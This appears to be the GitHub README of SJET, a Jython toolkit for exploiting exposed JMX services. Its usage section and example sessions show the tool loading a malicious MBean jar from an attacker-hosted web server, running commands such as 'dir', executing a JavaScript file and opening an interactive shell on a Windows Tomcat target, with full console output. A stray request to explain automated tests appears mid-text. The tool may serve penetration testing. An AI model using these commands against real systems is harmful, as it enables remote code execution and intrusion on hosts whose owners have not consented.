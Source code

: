 # SJET by siberas

A JMX exploitation toolkit.

## Prerequisites


* [Jython](http://www.jython.org/)

## Usage

SJET implements a CLI interface (using [argparse](https://docs.python.org/3/library/argparse.html)):

```
jython sjet.py targetHost targetPort MODE (modeOptions)
```
Where

* **targetHost** -  the target IP address
* **targerPort** - the target port where JMX is running
* **MODE** - the script mode
* **modeOptions** - the options for the mode selected

### Modes and modeOptions

* **install** - installs the payload in the current target.
	* *payload_url* - full URL to load the payload
	* *payload_port* - port to load the payload
* **command** -  runs the command *CMD* in the targetHost
	* *CMD* - the command to run
* **javascript** - runs a javascript file *FILENAME* in the targetHost
	* *FILENAME* - the javascript to be run
* **shell** - starts a simple shell in targetHost (with the limitations of java's Runtime.exec())

Explain how to run the automated tests for this system

## Example


###Installing the payload in a Windows target:

```
Patricios-MacBook-Pro:sjet preller$ Jython sjet.py 192.168.56.101 8008 install http://192.168.56.1 8888
[+] sjet was brought to you by siberas :)
[+] Starting webserver at port 8888
[+] Connecting to: service:jmx:rmi:///jndi/rmi://192.168.56.101:8008/jmxrmi
[+] Connected: rmi://192.168.56.1  1
[+] Loaded javax.management.loading.MLet
[+] Loading malicious MBean from http://192.168.56.1:8888
[+] Invoking: javax.management.loading.MLet.getMBeansFromURL
192.168.56.101 - - [11/Aug/2017 11:16:10] "GET / HTTP/1.1" 200 -
192.168.56.101 - - [11/Aug/2017 11:16:10] "GET /siberas_mlet.jar HTTP/1.1" 200 -
[+] Successfully loaded Siberas:name=payload,id=1
Patricios-MacBook-Pro:sjet preller$
```

###Running the command 'dir' in a Windows target:

```
Patricios-MacBook-Pro:sjet preller$ Jython sjet.py 192.168.56.101 8008 command "dir"
[+] sjet was brought to you by siberas :)
[+] Connecting to: service:jmx:rmi:///jndi/rmi://192.168.56.101:8008/jmxrmi
[+] Connected: rmi://192.168.56.1  2
[+] Loaded de.siberas.lab.SiberasPayload
[+] Executing command: dir
 Volume in drive C has no label.
 Volume Serial Number is E0CE-337D

 Directory of C:\Program Files\Apache Software Foundation\Tomcat 9.0

08/11/2017  01:34 AM    <DIR>          .
08/11/2017  01:34 AM    <DIR>          ..
08/11/2017  01:34 AM                 3 ASDASD.txt
08/10/2017  07:08 AM    <DIR>          bin
08/10/2017  07:08 AM    <DIR>          conf
08/10/2017  07:08 AM    <DIR>          lib
08/02/2017  01:29 PM            58,153 LICENSE
08/11/2017  01:24 AM    <DIR>          logs
08/02/2017  01:29 PM             1,859 NOTICE
08/02/2017  01:29 PM             6,881 RELEASE-NOTES
08/11/2017  02:16 AM    <DIR>          temp
08/02/2017  01:29 PM            21,630 tomcat.ico
08/02/2017  01:29 PM            73,690 Uninstall.exe
08/10/2017  07:08 AM    <DIR>          webapps
08/10/2017  07:08 AM    <DIR>          work
08/11/2017  02:30 AM                17 _____SURELY_A_SAFE_FILE_____.exe
08/11/2017  02:29 AM                17 _____AND_DONT_CALL_ME_SHIRLEY_____.exe
               8 File(s)        162,253 bytes
               9 Dir(s)  124,198,735,872 bytes free

[+] Done
Patricios-MacBook-Pro:sjet preller$
```

###Running the file poc.js in a Windows target:

```
Patricios-MacBook-Pro:sjet preller$ Jython sjet.py 192.168.56.101 8008 javascript "poc.js"
[+] sjet was brought to you by siberas :)
[+] Connecting to: service:jmx:rmi:///jndi/rmi://192.168.56.101:8008/jmxrmi
[+] Connected: rmi://192.168.56.1  4
[+] Loaded de.siberas.lab.SiberasPayload
[+] Executing script
None

Patricios-MacBook-Pro:sjet preller$
```
###Running ping in shell mode in a Windows target:

```
Patricios-MacBook-Pro:sjet preller$ Jython sjet.py 192.168.56.101 8008 shell
[+] sjet was brought to you by siberas :)
[+] Connecting to: service:jmx:rmi:///jndi/rmi://192.168.56.101:8008/jmxrmi
[+] Connected: rmi://192.168.56.1  9
[+] Use command 'exit_shell' to exit the shell
>>> ping 127.0.0.1
[+] Loaded de.siberas.lab.SiberasPayload
[+] Executing command: ping 127.0.0.1

Pinging 127.0.0.1 with 32 bytes of data:
Reply from 127.0.0.1: bytes=32 time<1ms TTL=128
Reply from 127.0.0.1: bytes=32 time<1ms TTL=128
Reply from 127.0.0.1: bytes=32 time<1ms TTL=128
Reply from 127.0.0.1: bytes=32 time<1ms TTL=128

Ping statistics for 127.0.0.1:
    Packets: Sent = 4, Received = 4, Lost = 0 (0% loss),
Approximate round trip times in milli-seconds:
    Minimum = 0ms, Maximum = 0ms, Average = 0ms


>>>
>>>
[4]+  Stopped                 Jython sjet.py 192.168.56.101 8008 shell
Patricios-MacBook-Pro:sjet preller$
```

## Contributing

Feel free to contribute.

## Authors

* **Hans-Martin Münch** - *Initial idea and work* - [h0ng10](https://github.com/h0ng10)
* **Patricio Reller** - *CLI and extra options* - [preller](https://github.com/preller)

See also the list of [contributors](https://github.com/h0ng10/sjet/graphs/contributors) who participated in this project.

## License

This project is licensed under the MIT License - see the [LICENSE.md](LICENSE.md) file for details.
